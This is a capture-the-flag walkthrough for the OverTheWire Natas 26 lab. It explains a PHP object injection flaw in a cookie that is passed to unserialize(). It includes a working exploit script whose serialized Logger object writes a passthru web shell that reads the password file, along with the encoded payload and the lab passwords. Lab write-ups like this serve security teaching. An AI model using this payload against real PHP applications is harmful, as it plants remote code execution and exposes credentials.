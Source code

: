 # Natas Level 26
```bash
Username: natas26
Password: oGgWAJ7zcGT28vYazGo4rkhOPDhBu34T
URL:      http://natas26.natas.labs.overthewire.org
```
We enter the site, and see the following page:
<figure>
    <img src="https://raw.githubusercontent.com/sefi-roee/CTFs-Writeups/master/OverTheWire/Natas/images/natas26.png" />
    <div align="center">Natas 26</div>
</figure>

And the scripts are:
```php
<?php
    // sry, this is ugly as hell.
    // cheers kaliman ;)
    // - morla
    
    class Logger{
        private $logFile;
        private $initMsg;
        private $exitMsg;
      
        function __construct($file){
            // initialise variables
            $this->initMsg="#--session started--#\n";
            $this->exitMsg="#--session end--#\n";
            $this->logFile = "/tmp/natas26_" . $file . ".log";
      
            // write initial message
            $fd=fopen($this->logFile,"a+");
            fwrite($fd,$initMsg);
            fclose($fd);
        }                       
      
        function log($msg){
            $fd=fopen($this->logFile,"a+");
            fwrite($fd,$msg."\n");
            fclose($fd);
        }                       
      
        function __destruct(){
            // write exit message
            $fd=fopen($this->logFile,"a+");
            fwrite($fd,$this->exitMsg);
            fclose($fd);
        }                       
    }
 
    function showImage($filename){
        if(file_exists($filename))
            echo "<img src=\"$filename\">";
    }

    function drawImage($filename){
        $img=imagecreatetruecolor(400,300);
        drawFromUserdata($img);
        imagepng($img,$filename);     
        imagedestroy($img);
    }
    
    function drawFromUserdata($img){
        if( array_key_exists("x1", $_GET) && array_key_exists("y1", $_GET) &&
            array_key_exists("x2", $_GET) && array_key_exists("y2", $_GET)){
        
            $color=imagecolorallocate($img,0xff,0x12,0x1c);
            imageline($img,$_GET["x1"], $_GET["y1"], 
                            $_GET["x2"], $_GET["y2"], $color);
        }
        
        if (array_key_exists("drawing", $_COOKIE)){
            $drawing=unserialize(base64_decode($_COOKIE["drawing"]));
            if($drawing)
                foreach($drawing as $object)
                    if( array_key_exists("x1", $object) && 
                        array_key_exists("y1", $object) &&
                        array_key_exists("x2", $object) && 
                        array_key_exists("y2", $object)){
                    
                        $color=imagecolorallocate($img,0xff,0x12,0x1c);
                        imageline($img,$object["x1"],$object["y1"],
                                $object["x2"] ,$object["y2"] ,$color);
            
                    }
        }    
    }
    
    function storeData(){
        $new_object=array();

        if(array_key_exists("x1", $_GET) && array_key_exists("y1", $_GET) &&
            array_key_exists("x2", $_GET) && array_key_exists("y2", $_GET)){
            $new_object["x1"]=$_GET["x1"];
            $new_object["y1"]=$_GET["y1"];
            $new_object["x2"]=$_GET["x2"];
            $new_object["y2"]=$_GET["y2"];
        }
        
        if (array_key_exists("drawing", $_COOKIE)){
            $drawing=unserialize(base64_decode($_COOKIE["drawing"]));
        }
        else{
            // create new array
            $drawing=array();
        }
        
        $drawing[]=$new_object;
        setcookie("drawing",base64_encode(serialize($drawing)));
    }
?>
```

And:
```php
<?php
    session_start();

    if (array_key_exists("drawing", $_COOKIE) ||
        (   array_key_exists("x1", $_GET) && array_key_exists("y1", $_GET) &&
            array_key_exists("x2", $_GET) && array_key_exists("y2", $_GET))){  
        $imgfile="img/natas26_" . session_id() .".png"; 
        drawImage($imgfile); 
        showImage($imgfile);
        storeData();
    }
    
?>
```

Lets try to understand.

Upon load after starting session, the second script checks if the key "drawing" exist in the cookie, and if true, and x1, y1, x2, y2 are in the GET parameters:
it stores $imgfile="img/natas26_" . session_id() .".png";
calls *drawImage($imgfile)* and calls show*Image($imgfile)*.
Finally it calls *storeData*.

We can see the definitions in the first script.
* *showImage($filename)* - checks if the file exists, and if so, inclues &lt;img&gt; tag with in the page.
* *drawImage($filename)* - calls *[imagecreatetruecolor](http://php.net/manual/en/function.imagecreatetruecolor.php)* and get image identifier in $img.
calls *drawFromUserdata($img)*,
saves the image in png (with [imagepng](http://php.net/manual/en/function.imagepng.php)),
and destroys the image object (with [imagedestroy](http://php.net/manual/en/function.imagedestroy.php).
* *drawFromUserdata($img)* - checks for x1, y1, x2, y2 GET parameters,
allocates color for the image (with [imagecolorallocate](http://php.net/manual/en/function.imagecolorallocate.php),
draws the line (with [imageline](http://php.net/manual/en/function.imageline.php)),
if key "drawing" found in the cookie: sets $drawing=unserialize(base64_decode($_COOKIE["drawing"]));
and for each object the the cookie, draws the line.
* *storeData* - if found x1, y1, x2, y2 GET parameters, adds it to the cookie, and sets cookie ("drawing") as: base64_encode(serialize($drawing));
We can see that the object Logger is not being used, and that it have a destructor which we can use:
```php
function __destruct(){
            // write exit message
            $fd=fopen($this->logFile,"a+");
            fwrite($fd,$this->exitMsg);
            fclose($fd);
}
```

On page load, the code uses *unserialize* function which is vulnerable to "[object injection](https://www.owasp.org/index.php/PHP_Object_Injection)".

Consider the following PHP code:
```php
<?php
class Logger{
    private $logFile;
    private $initMsg;
    private $exitMsg;

    function __construct(){
        // initialise variables
        // $this->initMsg="#--session started--#\n";
        $this->exitMsg="<? passthru('cat /etc/natas_webpass/natas27'); ?>";
        $this->logFile = "img/natas27_passwd.php";
    }
}

$obj = new Logger();

echo base64_encode(serialize($obj));
?>
```

It outputs:
```bash
Tzo2OiJMb2dnZXIiOjM6e3M6MTU6IgBMb2dnZXIAbG9nRmlsZSI7czoyMjoiaW1nL25hdGFzMjdfcGFzc3dkLnBocCI7czoxNToiAExvZ2dlcgBpbml0TXNnIjtOO3M6MTU6IgBMb2dnZXIAZXhpdE1zZyI7czo0OToiPD8gcGFzc3RocnUoJ2NhdCAvZXRjL25hdGFzX3dlYnBhc3MvbmF0YXMyNycpOyA/PiI7fQ==
```

If we set this value to "drawning" cookie, the *destruct* function will be called and the password will be written to the "img/natas27_passwd.php" file:
<figure>
    <img src="https://raw.githubusercontent.com/sefi-roee/CTFs-Writeups/master/OverTheWire/Natas/images/natas26-object-injection.png" />
    <div align="center">Natas 26 - Object injection</div>
</figure>

Now, we just need to call this [URL](http://natas26.natas.labs.overthewire.org/img/natas27_passwd.php), and we will get the password:
<figure>
    <img src="https://raw.githubusercontent.com/sefi-roee/CTFs-Writeups/master/OverTheWire/Natas/images/natas26-pwned.png" />
    <div align="center">Natas 26 - PWNed</div>
</figure>

We got the password for the next level: **55TBjpPZUUJgVP5b3BnbG6ON9uDPVzCJ**
